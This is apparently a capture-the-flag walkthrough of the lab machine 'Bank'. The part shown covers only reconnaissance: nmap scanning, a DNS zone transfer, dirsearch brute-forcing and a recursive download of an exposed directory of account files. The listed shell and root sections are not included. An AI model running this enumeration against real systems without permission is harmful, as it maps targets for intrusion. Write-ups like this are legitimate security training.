#### Bank

- [Attacker Info]()
- [Nmap Scan]()
- [DNS Enumeration]()
- [HTTP Enumeration]()
- [Reverse Shell]()
- [Getting root using ``suid`` binary]()
- [Getting root using public write access to ``passwd`` file]()

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 2498  bytes 1056112 (1.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1969  bytes 223299 (218.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 184  bytes 42237 (41.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 184  bytes 42237 (41.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.11  netmask 255.255.254.0  destination 10.10.14.11
        inet6 fe80::ecc5:e1be:92a0:bd4a  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1009  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 1339  bytes 147232 (143.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1373  bytes 71666 (69.9 KiB)
        TX errors 0  dropped 12 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/bank# nmap -sV -sC -oA bank.nmap 10.10.10.29

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 20:44 EST
Nmap scan report for 10.10.10.29
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (EdDSA)
53/tcp open  domain
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.98 seconds
root@kali:~/bank#
```

###### DNS Enumeration

```sh
root@kali:~/bank# nslookup
> server 10.10.10.29
Default server: 10.10.10.29
Address: 10.10.10.29#53
> 127.0.0.1
1.0.0.127.in-addr.arpa	name = localhost.
> 10.10.10.29
** server can't find 29.10.10.10.in-addr.arpa: NXDOMAIN
> bank.htb
Server:		10.10.10.29
Address:	10.10.10.29#53

Name:	bank.htb
Address: 10.10.10.29
>
```

```sh
root@kali:~/bank# dnsrecon -r 127.0.0.0/24
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
[*] 	 PTR localhost 127.0.0.1
[+] 1 Records Found
root@kali:~/bank#
```

```sh
root@kali:~/bank# dnsrecon -r 127.0.1.0/24 -n 10.10.10.29
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 127.0.1.0 to 127.0.1.255
[+] 0 Records Found
root@kali:~/bank#
```

```sh
root@kali:~/bank# dnsrecon -r 10.10.10.0/24 -n 10.10.10.29
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 10.10.10.0 to 10.10.10.255
[+] 0 Records Found
root@kali:~/bank#
```

```sh
root@kali:~/bank# dig axfr @10.10.10.29

; <<>> DiG 9.11.2-P1-1-Debian <<>> axfr @10.10.10.29
; (1 server found)
;; global options: +cmd
;; Query time: 197 msec
;; SERVER: 10.10.10.29#53(10.10.10.29)
;; WHEN: Mon Feb 12 21:29:05 EST 2018
;; MSG SIZE  rcvd: 28

root@kali:~/bank#
```

```sh
root@kali:~/bank# dig axfr @10.10.10.29 bank.htb

; <<>> DiG 9.11.2-P1-1-Debian <<>> axfr @10.10.10.29 bank.htb
; (1 server found)
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29
ns.bank.htb.		604800	IN	A	10.10.10.29
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
;; Query time: 204 msec
;; SERVER: 10.10.10.29#53(10.10.10.29)
;; WHEN: Mon Feb 12 21:29:27 EST 2018
;; XFR size: 6 records (messages 1, bytes 171)

root@kali:~/bank#
```

```sh
root@kali:~/bank# vi /etc/resolv.conf
root@kali:~/bank# cat /etc/resolv.conf
# Generated by NetworkManager
nameserver 10.10.10.29
nameserver 192.168.1.1
root@kali:~/bank#
```

```sh
root@kali:~/bank# ping bank.htb
PING bank.htb (10.10.10.29) 56(84) bytes of data.
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=1 ttl=63 time=188 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=2 ttl=63 time=225 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=3 ttl=63 time=247 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=4 ttl=63 time=189 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=5 ttl=63 time=290 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=6 ttl=63 time=311 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=7 ttl=63 time=332 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=8 ttl=63 time=355 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=9 ttl=63 time=377 ms
64 bytes from 10.10.10.29 (10.10.10.29): icmp_seq=10 ttl=63 time=190 ms
^C
--- bank.htb ping statistics ---
10 packets transmitted, 10 received, 0% packet loss, time 9018ms
rtt min/avg/max/mdev = 188.455/270.949/377.964/68.514 ms
root@kali:~/bank#
```

###### HTTP Enumeration











```sh
root@kali:~/bank# git clone https://github.com/maurosoria/dirsearch.git
Cloning into 'dirsearch'...
remote: Counting objects: 1505, done.
remote: Compressing objects: 100% (43/43), done.
remote: Total 1505 (delta 21), reused 35 (delta 13), pack-reused 1448
Receiving objects: 100% (1505/1505), 17.62 MiB | 7.10 MiB/s, done.
Resolving deltas: 100% (848/848), done.
root@kali:~/bank# cd dirsearch/
root@kali:~/bank/dirsearch# python3 dirsearch.py
URL target is missing, try using -u <url>
root@kali:~/bank/dirsearch#
```

```sh
root@kali:~/bank/dirsearch# python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -f -t 20 -u http://bank.htb

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

 Extensions: php | Threads: 20 | Wordlist size: 441041

Error Log: /root/bank/dirsearch/logs/errors-18-02-12_21-43-29.log

Target: http://bank.htb

[21:43:30] Starting:
[21:43:31] 403 -  279B  - /.php
[21:43:31] 302 -    7KB - /index.php  ->  login.php
[21:43:32] 200 -    2KB - /login.php
[21:43:32] 302 -    3KB - /support.php  ->  login.php
[21:43:33] 403 -  281B  - /icons/
[21:43:35] 403 -  283B  - /uploads/
[21:43:37] 200 -    2KB - /assets/
[21:43:56] 302 -    0B  - /logout.php  ->  index.php
[21:44:16] 200 -    1KB - /inc/
[22:18:03] 403 -  289B  - /server-status/
[22:49:58] 200 -  248KB - /balance-transfer/

Task Completed
root@kali:~/bank/dirsearch#
```















```sh
root@kali:~/bank/balance-transfer# wget -r http://bank.htb/balance-transfer/
--2018-02-12 22:10:39--  http://bank.htb/balance-transfer/
Resolving bank.htb (bank.htb)... 10.10.10.29
Connecting to bank.htb (bank.htb)|10.10.10.29|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25492 (25K) [text/html]
Saving to: ‘bank.htb/balance-transfer/index.html’

bank.htb/balance-transfer/index.html               100%[================================================================================================================>]  24.89K   127KB/s    in 0.2s

2018-02-12 22:10:40 (127 KB/s) - ‘bank.htb/balance-transfer/index.html’ saved [253503]

<--snip-->
```

```sh
root@kali:~/bank/balance-transfer# ls
bank.htb
root@kali:~/bank/balance-transfer# cd bank.htb/
root@kali:~/bank/balance-transfer/bank.htb# ls
assets  balance-transfer  icons  index.html
root@kali:~/bank/balance-transfer/bank.htb# cd balance-transfer/
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer# ls
 0016a3b79e3926a08360499537c77e02.acc   2d9e6682bb5f480978b1a8f61d375bd0.acc   5ee81d3848dc565d16f84b8023c78d35.acc   973a3382433a21d7bdb1cc0f8f813f83.acc   d033c9d931824ff9e2c33961f02fd458.acc
 001957ef359d651fbb8f59f3a8504a2f.acc   2db5f802521a622c4cd64c83eddc07d6.acc   5f50c17e7e3ffccfd65721e30808a54d.acc   976358d4677bd2938987d334bb6f283d.acc   d0800a34462bed11d866ab5f06ba675d.acc
 0026d872694cf17e69618437db0f5f83.acc   2e080ba377f32a78b84231e25673d519.acc   5f60a464918c3d8d17940fdd31dd487b.acc   97b93d510fb8e5946d975d81a53562de.acc   d0bdf3f0e1cbd9a34ffe788c2fe58a3b.acc
 003e8ffc123735afbcc7b219851d45c3.acc   2e5192979d89746230024fb2af498237.acc   5f632234377f9af6442ea29d8aff30de.acc   97cb4404efbed5404dbd3c1023f226e9.acc   d0bf290f0f579a5517ee798f2ff342c1.acc
 005953d5f1fcb53ed897063881a91e00.acc   2e5bc9bbaa7e60b1bc88c5ffa46b47a5.acc   5f83801c9d2788e006ac5878415aa113.acc   97daa2d02c5a4c6a68f81f6e7196a9eb.acc   d12bce7535862f5cb291a7ce2c28a3c7.acc
 00895e6b8d2389faa6cf736388dd6907.acc   2e8783c6f4ceba1ca5d9f091a7a3f319.acc   5f9de9bd6cee286315cbe49e5d31c2d0.acc   9829ce4147ce5ba39e4e95ddb7254b73.acc   d1a0513c49f6a3e5ac20be49f84d4366.acc
 00a929b4f7ece04c5da8fac8da8370a0.acc   2e8b4d1333646e8ed98637bf1793c78e.acc   5fbbd0af8aff8f966d119a7de8e123ac.acc   9833b80712e7a1e77e86a2dfbaba8278.acc   d1a3a981955f9ca90f71169e2ed36f4a.acc
 012713bf9cfc1e5adfbdbc14dd32a1c6.acc   2ebac37c664663f382ddcf74c9295289.acc   60ce46875da3a71989de7d5ff4aea73a.acc   984c8ac0662b0368642ddadf106bd1aa.acc   d1ae912f2a39c387da14e93824a8dc55.acc
 0130afdc7d28350eaa7018736d8e75af.acc   2f3cf398674340a1c3959e6ce1a4f902.acc   60de900180b1e32efcd6fddeeaebfdb7.acc   98a9d9ac52319098a6ea778e6ec559ee.acc   d1c0337cacd04b40aa41ad9673ab6e18.acc
 013fc67de873fdc3f001a3c8fd6fb252.acc   2f6db9d426117b3921668d15c3667c7e.acc   610fa1e1fd8a8a74b5da05a6c029473a.acc   98fdde8e57f46c48d6f8eff627c7bd6d.acc   d1edb87cf8ab7428f6516d4aa6d4f810.acc
 01a13d9db1b513230047f8951f5ee426.acc   2fa45e4ec782cc8a067941b8a4e4eac1.acc   616058320a920bbc1078572b9f1b6b70.acc   998dab6a74e39fc6d830d3569c9eea50.acc   d202a0e5d499e5de951e2bd0f89c1561.acc
 01d537afce94cd70b6dc734db310d34f.acc   2fb844630d50127f324bf0734046bc56.acc   618a6cf12f8be23f4f425129f4487c53.acc   99aad93853d637ada481588dfc223c56.acc   d202e77cc1f248507e2762f3d94e7700.acc
 021d32498ed3715cf0cfa4cba3233de6.acc   2fe3b2cc3fe0ed617e7650f7a09aa7e7.acc   61fbc3bd099c1b5bf6abe0df0246863d.acc   99b73c36a3f627bca6cf01689505081d.acc   d3a36914dbbfc27be1850c9ff96782d4.acc
 0278047e279b4b7affb284d5d27fff61.acc   2ffe137ee7c65733590febfbfc5040ae.acc   6218cd1ca8743a36fabfc189c4e3288c.acc   99d49fb7fc00f549eb036dd473964ca5.acc   d3b32d2462d7cc342c873eb5e446aecb.acc
 0285de4a0d1ae2cae6d4d2be03c71ad7.acc   30033ed5c2aedb6b8e8babea24612974.acc   624ab87c34e95964f842598d2a5af800.acc   99fca069a084b394d4a54401008c0651.acc   d3d8504e9030c7a62c9a753975edee61.acc
 0298cb464791ff4a6c5447114fb4bc18.acc   301120b456a3b5981f5cdc9d484f1b3b.acc   6272e6fde32336fbd46ce0056234965b.acc   9a885af05f71935ae8fb9cbbc07f6c57.acc   d3f31422f7626f223f0566cff6aeb214.acc
 02ab56265052fcbffa94aa8868955809.acc   30a392f1433bd45a4bba176dc97c9de4.acc   62a7e0ad3a6040bd58bf74b27912aad3.acc   9b18bdcbae98a8fadfd7baadbbab92ac.acc   d441f15b2a3476a27e293baf3d0ec05a.acc
 02e28c6da52d30a3d4029c4fee24a627.acc   30df9189d0b3eeeeac5f691bba0fc293.acc   631a75b70b8724266b9c50b79a66f580.acc   9b1b85b68b76774b9e97f12d4e685297.acc   d47cf16a162cede027eff16290df4b41.acc
 03051d2fc082a4486cefc8e4f3aef886.acc   30f837801133d02bad7737387693fc77.acc   632416bbd8eb4a3480297ea3875ea568.acc   9b38ac5ba7ca3e908bbc52656963ff1c.acc   d482e381c5eb43f1926cfb3a246e5bb0.acc
 03089964c6d31d512907f2fd2547d690.acc   311b41a1d40429482b14e395f56423cb.acc   63f56536ccbeb53f86180241feedb579.acc   9cc34a3225e3d56ef6ca75d48d1bfeb8.acc   d53b97a0d345159716ed03541ba999e8.acc
 030af0ec1428a8fe5a7eaf9e684941e8.acc   31352ca79f8973c646dc89434f91080a.acc   640087eae263bd45eb444767ead7dd65.acc   9d1ccb2a318fe144d1787744870973ca.acc   d54532bd2e68a899fff5dad8bd5db8e8.acc
 036aacee702e369846c184cdf374912b.acc   3154e6528069850adc415ae29414f380.acc   6427c41c712d10bde42c5231a058261c.acc   9d7bfd31b36dfb3819bfcd38d2a2a6da.acc   d5cb9f617e1a85d3b82222655d8b9745.acc
 03a6a13a7c61cf6bc7753d4c2d41d6d8.acc   31553a37be725d7b5d1add5acae714f2.acc   64cc0529536e5e6c7a99716743e8736f.acc   9da8237625c9c0415c890bef3ba6ebc5.acc   d63d28ffe1c777e4039aaa44f38a9a80.acc
 03c158aca0eb3493b4730ba5ed0d3a80.acc   31586fb5ead11d90c96bbdbb463dee21.acc   64e321bd2ca29ce92f8794d070dc610a.acc   9de044238ee025b4a846affc64cc5233.acc   d64498c649d007c2550b893b875491bf.acc
 03f08dbc9f58c93aea6413111787bdeb.acc   31c0b98fc822defc124dbc16bfe44333.acc   65733941cafa352d30dfbdc7580d023a.acc   9e2946901fe6cb9fc604a12d18db1722.acc   d6e92e084ca622a793ed7dd522d5570e.acc
 040a56b78a97b8eb348b5f205d42de7f.acc   31d7f7440558b43d32b40a3927724fff.acc   6575141b4812a7fef638ace04b19d0c7.acc   9e46683ea1755a3751709b04e37571e4.acc   d6f925ae367e2dbcd8b918ede84fa6ac.acc
 04488e1db8e68fcf67684b78504f8f2e.acc   321d724386f8ab165f68fff922ee79c3.acc   65c2e22dfd5c3cd4ec160c641925aabd.acc   9e714e03d30847b9faa6f7f34041a818.acc   d7cd6ee61bf1652ea1cf0a34291edab7.acc
 04671617d7bd3af5683a770e02f9fd56.acc   32203b71b000edd1b90258a14bf28a55.acc   65f00eed6eb9cc15e2bb8fdce2fb12cd.acc   9e91dd7524e1a9e54af255b02eb3f06a.acc   d7da27efabd1420a998985b595a9e3e6.acc
 048ed94fee4e036472a1bdb8795a3aef.acc   3293cf3299da33ed5e173453e98bab68.acc   66284d79b5caa9e6a3dd440607b3fdd7.acc   9eb94f160af437fe9df9da2416072508.acc   d81ff44224e6f0af034c595cba2b9197.acc
 0493facd8932d18d6657c7dff0bc151c.acc   32bd197fe15d5ac657a7789f5adf672f.acc   66c7b098bc08fc357766252f3f3e8051.acc   9ecf16cf62123f6cd5b5cea0f5864497.acc   d88b183a0b7a477c5f7f38649aef54e4.acc
 04bb6e0356b43d31d25277a4fa56884f.acc   32e89b9885e8e2c7c3bd635bea89fd0a.acc   6700bd647e3c7f1a577ef7335b64e92e.acc   9f07f9526589a189370b73a3b29a4d9b.acc   d898f1f579e3c074ae703acbf1f7ca64.acc
 052a101eac01ccbf5120996cdc60e76d.acc   32f6724fef117c0dc2de8e69180bc7e1.acc   678e183b3178e7921df2a5a7a3a5778b.acc   9f0c5a3cc09e7a3cd0debffdee919bb8.acc   d92f85304c616afc75cedc569ec95449.acc
 0589423587b67002f0a64101e821ba18.acc   3313d744daa87043953a44fbb65b2981.acc   679d6fe1e0d242f848e3f919d8c00877.acc   9f3c06e35412753ec225c292b7cbc0f2.acc   d9cfdd2f403feb188165f66e93f1f0ea.acc
 05f064ba91479a01e1b9456afa6e9b2f.acc   33baf312460423d88dc681c5aafc0b0a.acc   67c1530e6d052befe61c27c7935f710e.acc   9f6357464ddc2017fff1923f28835cf7.acc   da792e19873be561b9410bec2e43cd0d.acc
 0603c831aa543636b14c9047ab65ca73.acc   34457654bf404f9419d68bc8c6f580bb.acc   682bbcc46c90afb5e2aa6feb361ba771.acc   9f936f11fb62fc8b30e3d86ff7c0f8cf.acc   da91d518d1fecf7334ab95fc97930324.acc
 06a0b516439755f9b849a2d060df6ce7.acc   346bf50f208571cd9d4c4ec7f8d0b4df.acc   68576f20e9732f1b2edc4df5b8533230.acc   9fb8117ab5d757240cd6ef209f85471a.acc   db89b8312d552ed200d5f232e929d226.acc
 06a80cb247151573c2731863af1e0f3f.acc   346dfb647268bec0a6e05bd60647b6e6.acc   68c3a3ac26417379fcc695e14aa36f51.acc   9fe63f9d1390025ee2e3c735c1a75082.acc   dbb9aa3c08cf691b8c020742d28a5126.acc
 06cc59f58d34941d93a9f7daa54aeb30.acc   347c3e55d7823a9758de01598aa33f2b.acc   68e1781b0492331302362108c6ceb81d.acc   a19983a3444c9f01bb4afb8f985c92bc.acc   dc38c8982f3e8c33505fd71ebbb83493.acc
 06e5ed6835032cadeedd8cbc2525c1e8.acc   3491e73a84a342b518cd7c7df3e5d6a2.acc   695cc486245e700b16b43e258ce15ea7.acc   a19e0c370602300554e6a997b9dc91ad.acc   dcbcee36c8e9921d457bef60536010fa.acc
 070a07a40fcc8c5f6dfbb0f16f6917b0.acc   34df994940887200e952babc211df6f3.acc   6a02166c0d69d4f4a81f0e773923da2f.acc   a1a96ff9ea385289c05d16230b509aeb.acc   dd1ef498f9168afa3a998bf521c86bdf.acc
 0765aa4c97f0857f49921bc32281f6e5.acc   34ef76485eadbb67f83a4fb1fef184f8.acc   6a8727b0306a2efbd5eba6f4026fdf6b.acc   a27d0aa5e218c89d734cd7c169f7f4f9.acc   dd441ff68ffdd5e483c54b22d6b9560c.acc
 07dbd94cf3a4b07d4ac13d0ed5573cfc.acc   3545c87f1008dbaf5d6e1faf365dc00b.acc   6aeaa4873136f7d21a3ba00fe3a4bb40.acc   a2881d3dd5ee59e95e3ba1265b2a68a2.acc   dd72dfee0e8914682822bc675abc1c1b.acc
 07df2d04959d3f89118a7994d52d002d.acc   366d5953a9b993d1abec74d4bd4f47f5.acc   6b23ae70d9c694a8f43b0ea455f33223.acc   a2a532abbf06c0e084f508b5f14de219.acc   dd764f1f57fc65256e254f9c0f34b11b.acc
 07fe9d5980ec8dd731bd1cc22efd6bd4.acc   377af4fb3c552283d364e04bdd45a2ab.acc   6b5e880f00cb0a06cc7bb8883ca4246b.acc   a2e24c98892ca93d1201c80f42c994e4.acc   dd8b35539e6e28b7fca7e16ed30346bc.acc
 082e4bdf27365d8205490fbe36bb8028.acc   378be8c1fedf59f60349f6bad4b7db95.acc   6ba0c8a624ae32999847adb2b217017e.acc   a2f5e3d1b3733a1a40ac6ac4bd7c2182.acc   dd98b8e773842caceb3dfd65807b96a6.acc
 0832c922148dd0722d6da8d1f438da1a.acc   37eab7fc827b5398e708fc8d9bf96adf.acc   6bcd10214c86176e8c810b179f87ccf3.acc   a3009c3a4e00b5c5c760f7b43643bc4f.acc   dda838ffa97c73f9b23635a3ea2af089.acc
 085349be3fa3df64b0fc3f2c8a7b95b7.acc   385e8f506e4d16fcb3b4f04cb2134bd1.acc   6c0925ad3a766771c79e7337e33a6d8c.acc   a3692632944476a25b92d486c17c6962.acc   ddba1881bb08a67296da274255327295.acc
 08cc112526d390bc424e7b4b01848e7b.acc   386fe978dd93c84898ffed478ddfc479.acc   6c2baf5043cac2a7bd0ec8ba8067b45b.acc   a398fabe8a9cf8411e32841e10f64dd6.acc   de05536aaad7fcd48213d4514d4e86ec.acc
 098bab0276720c1c52abc420af43bd9d.acc   387aa6875b5e6c7225e120ef577bb484.acc   6c4fec2702b25900b66379a02b54ae24.acc   a465e6dcb80571d0c1a4c50656db1e3f.acc   de90b8a1ab02fc3057c6bcae023994dc.acc
 09ed7588d1cd47ffca297cc7dac22c52.acc   387f8c91842b29f0596a433847400d68.acc   6ceca1d2b3c6a95ece973b660500db6a.acc   a4faa925a6f8d2c6027d5934cea9a103.acc   debb6ca8f8c2d3111b3075318baf47fc.acc
 0a0b2b566c723fce6c5dc9544d426688.acc   388a6d78ca9a5677cfe6ac6333d10e54.acc   6d0b2f0cd5a45ec822d779f9ffb1653a.acc   a53a4eaab8be6c4b8569fd407be54287.acc   df1868a53af00d00adcb968329cba2cf.acc
 0a0bc61850b221f20d9f356913fe0fe7.acc   388bd4708d5399f3b57f01b743d41be8.acc   6d50c71fb7435ebbece559a5a3b536a7.acc   a5ae203a96c1b48cc51f38e2113b51e2.acc   df3bb08355a9cf43ebf38c0b56572f24.acc
 0a2f19f03367b83c54549e81edc2dd06.acc   39095d3e086eb29355d37ed5d19a9ed0.acc   6d5d247ebfc4795d2c83676a43e88d1f.acc   a5beea9b526e1fa0916a2a1c2297ad14.acc   df6f4c539f4e65dbab41c8d859d716ef.acc
 0a629f4d2a830c2ca6a744f6bab23707.acc   3918cc808d11bb1c24df866cc0e2a69c.acc   6d9666eac9b05c37d68cbcbcb24c7609.acc   a5d269a562c49d467a5102643bd35a8c.acc   dfba0fca0f256dced2045954d288dc5a.acc
 0a9014d0cc1912d4bd93264466fd1fad.acc   397bfae2d17164399945b7e8e5630a86.acc   6e6c81b5d36cda27b14bf5bb52888625.acc   a5d757244998b2d9ec1d9b88da0c17c7.acc   e00ecd8f4f080b2f004469ab977557a2.acc
 0ab1b48c05d1dbc484238cfb9e9267de.acc   39f65afc6e443a171c30bf66fae63db1.acc   6e742f8451c5ec6dc5f531a390c97b7b.acc   a5dd7a85f0c5aef27255defb4059cab6.acc   e0144aefd0efef77f6e22ccf0184be7a.acc
 0abe2e8e5fa6e58cd9ce13037ff0e29b.acc   3a33c5bf7ef7abcf81c782a79a43d83c.acc   6ed19aeaf42959eb8d96b7eb29e5d3e4.acc   a6012bfc5cbd982890ccd874df0acb63.acc   e0acada8ebe2e71f0f2fb11f46a615ca.acc
 0b45913c924082d2c88a804a643a29c8.acc   3a682bcef6c37e5541e1fb543fa966b3.acc   6eecbc937801fa028da31d0323077a86.acc   a648c7b7032a91bf38440a56b7f1bf26.acc   e0f6f044cfa36d6e376e2c4d51e19c51.acc
 0b59b6f62b0bf2fb3c5a21ca83b79d0f.acc   3a6cd651f5316bcc9794b1aedeabd72b.acc   6f3d197021dd9b9a089147483e317263.acc   a6566c5ba56c080595346fb4f75175f5.acc   e11afad2d397447c713765da5455284a.acc
 0b6ad026ef67069a09e383501f47bfee.acc   3ae7e40b423769e8829056053be4b770.acc   6f697ea29832716004b565b9e2a974bb.acc   a675e030fbf19a997ca2a03c096c7162.acc   e131f1ebe2dd1c2e94bd520c453c6fba.acc
 0be866bee5b0b4cff0e5beeaa5605b2e.acc   3b0b0922fbcee3da3c6b7307bd1bb75e.acc   6ff05fe0459f5a96fc0f65ee6a70d5cf.acc   a676fde116361fca31ee46e2568e0ff8.acc   e133d908180589eec9ccfbea70d741d1.acc
 0c04ca2346c45c28ecededb1cf62de4b.acc   3b44d9cbc04be9fb5f1a63e666203815.acc   7053af4bcb72fce3b093fd4847070f29.acc   a6a253ff3c0058a8218eba01acddaa38.acc   e1c22573a63c4b2a458b50fe5952dfbe.acc
 0c4c9639defcfe73f6ce86a17f830ec0.acc   3b823513d5f5255facecc595b6c20c41.acc   70adef1fa6974f1fc074f669b5f5228f.acc   a710f853274ebac3bbdfa39d1498b131.acc   e1f3df4623fdd06b5e73b0638e746d8c.acc
 0ce1e50b4ee89c75489bd5e3ed54e003.acc   3bb925999bfe2f00e955e35ae5c45acf.acc   70b43acf0a3e285c423ee9267acaebb2.acc   a75e327f24e14d77509c39cf53c2eb9d.acc   e1fc90a1fcaf755f7d87642ee8435aff.acc
 0d3d24f24126789503b03d14c0467657.acc   3c03e292162c87b33e89e7c34a7a2d70.acc   70f0b318435ade66c82d93bb770b6ced.acc   a7c061a1de903c3498d4a96242d16244.acc   e21c913c872e02ae81887b8acc747d42.acc
 0d64f03e84187359907569a43c83bddc.acc   3c573c41d23c5c5b9ee8c2907d079697.acc   70fb7ee7eb269c313db283def6ab7d09.acc   a80f454ea328eeb74bc50e0c2af5c33a.acc   e2460b444421f0c740771fb06d3f5383.acc
 0d76fac96613294c341261bd87ddcf33.acc   3cc285ba7c9ab83973717b64f690d3e0.acc   718772467ce8bd9c269aebb2e25ebd2f.acc   a909fd3d565cdc5e67c7b25563733b3a.acc   e260b48878509a1e12abb7614b1dae46.acc
 0e5a884b0b23e98446c460b4dbafc3ee.acc   3cfe8573c12153ad69e3ebe9f2451783.acc   71aae80069a4da7645691daa3d2c5377.acc   a9304d76fefb2a8b05e7e33bb96c5e0e.acc   e291abebd339260825783fb4c3a308ad.acc
 0ec03beb3832b05908105342c0cc9b2f.acc   3d3e2799ae9dab5057b9ef7dc66138fd.acc   71c6d088ffa6532bd971a94224142780.acc   a940beb305934c9e105340f21528b1e4.acc   e2dae8ebb3b4324ec60ea862147d86cf.acc
 0ec280c07bff51e211f18118aaf110b4.acc   3d5e1f376f09b7704eb9309448db2320.acc   71c9fffe15fbafc620deace20b7c5eb6.acc   a98fe279ce82b3e7566be14540cdfd87.acc   e2e0c84c82bb1ec6e2ed2e47c4b613fa.acc
 0efa8fd313b2a59bb07e8a656dc91412.acc   3e15fba8222b4257f517f73ffa6e8dbf.acc   71e11c0830a96debe4d53669c6cb6149.acc   a9bf73c62737a6c16b95651c046fe3f1.acc   e2e5811258574d046e14dcd3ac2c85bd.acc
 0f2b9dad0ad001b9b14d64112de3fbcb.acc   3e4c7ee45bec4977653fa1ff687703a4.acc   71fb6e8200897f051710b9eca09c1957.acc   aa1460476704c4ab045ba3583b34a319.acc   e321164b6a58b2bec20f5779cf81a035.acc
 0f6f890eddff9b4cf0deb3269ee0a358.acc   3e7269a8cbf32786733aa2073e29d867.acc   726a000b87b8e3ae49e2d0039a216fc0.acc   ab184ebb41fd49201e47e6d9e7995c0f.acc   e3c644269174eb2836bc4fa382949bac.acc
 0f8495f20c0711377b9d082d53280d3d.acc   3eab44115dce3fcadf150d7e98e2f456.acc   72b4c66c76496c6b042719aeb851f526.acc   ab4e2a922a7f3a3c8600276866e05a4e.acc   e48560adbad98be98b7ea385132daaa1.acc
 0fddb291b4c92a91d97d9f148dce4371.acc   3eb4295fbf0b2bac4aa20350246a6b9d.acc   72d21e93a5b484619d0a6393ea54d76f.acc   abbdef22ad2cd61ce2b88efdc1fd4068.acc   e4939066a31bb3791e5090eaa126b578.acc
 0fe47df5c5dd6fed071b81c5ccfd29e2.acc   3ebc66c0b6e64c060e86daf2ce4c9a31.acc   72f6e953d2eb1efacaef199dc21aacc1.acc   abcf40e21740a1c04a9a3566497c0892.acc   e515f0b553c041958bfefc737a7a9be7.acc
 1005c4b820f30569e0a8e290f2893299.acc   3edf797d706622fab4a57ba0a4af704c.acc   731d836d632dbe827ba83ed1dd904e46.acc   abedece2083ec0ce5bfd9b8287073e1f.acc   e51cd1e8e3b38e7491b3a2bf1d54cb85.acc
 10805eead8596309e32a6bfe102f7b2c.acc   3f3b9ba3a75e23bebe956760fff45a30.acc   73e4380e5ede97598e662531ed11a5fa.acc   ac2916a043bcbeb801691afed44274d8.acc   e534ab97fa5fa6f90508261518af6761.acc
 10b8b7b1713f1dca5ad72ea3ebcab475.acc   3f5377ebb31e50606f0d2cef73f49130.acc   73eedfa54a99abf8c4223588741118f2.acc   ac4f23bdb45a02602a6501e28993060e.acc   e545f6be978e341ad0412d954c6f5181.acc
 10df9dfe748997d7bbfb5d64cee284b9.acc   3f7dcbfa9956edfc1c680db5f56258ca.acc   74a3863d401f4876b428bb498974a8bf.acc   ac4fd9384634602b2d74305a18648577.acc   e5608acb3cdc61bf03e76ba0eec6f144.acc
